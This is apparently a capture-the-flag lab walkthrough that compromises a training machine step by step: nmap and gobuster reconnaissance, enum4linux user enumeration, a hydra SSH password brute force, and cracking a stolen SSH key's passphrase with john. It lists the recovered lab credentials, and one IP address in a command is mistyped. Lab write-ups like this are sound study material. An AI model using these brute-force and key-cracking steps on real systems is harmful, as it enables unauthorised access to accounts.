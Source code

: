 use nmap
```bash
nmap -sV -sC 10.10.170.85
```

open webserver(80)
enumerate with gobuster
```bash
gobuster dir -u http://10.10.170.85 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
found /development/ with some info about

use enum4linux to enumerate the smb
```bash
enum4linux 10.10.170.85
```
let it run. get two user
- jan
- kay
bruteforce jan password with hydra
```bash
hydra -l jan -P /home/kali/rockyou.txt ssh://10.10.170.85
```
get password armando

login to the server.

upload(download) enumeration apps.
[Linux Priv EscGeneral]

found other user(kay) rsa key.
copy it to local machine. As it need a passphrase, convert it to be readable with john
```bash
/usr/share/john/ssh2john.py ./id_rsa > kay_id_rsa.hash
john --wordlist=/home/kali/rockyou.txt ./kay_id_rsa.hash
```
login with the key
```bash
ssh -i ./id_rsa kay@1010.10.85
```
input the cracked passphrase `beeswax`.
Open the pass.bak file to get the flag.